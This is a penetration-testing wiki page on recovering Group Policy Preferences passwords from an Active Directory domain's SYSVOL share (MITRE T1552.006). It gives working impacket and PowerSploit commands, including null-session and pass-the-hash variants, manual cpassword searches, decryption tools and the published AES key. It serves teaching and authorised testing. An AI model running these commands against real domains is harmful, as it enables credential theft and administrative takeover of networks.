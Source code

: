 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](broken-reference) attacks ([read more](broken-reference)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted:man\_shrugging:.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually (or with Metasploit's `smb_enum_gpp` module), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) (Python) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) (Ruby) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the GPP password can only be recovered from an authenticated (i.e. domain user) context (see [impersonation](../impersonation.md)).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=2288" %}

{% embed url="http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html" %}

{% embed url="https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be" %}

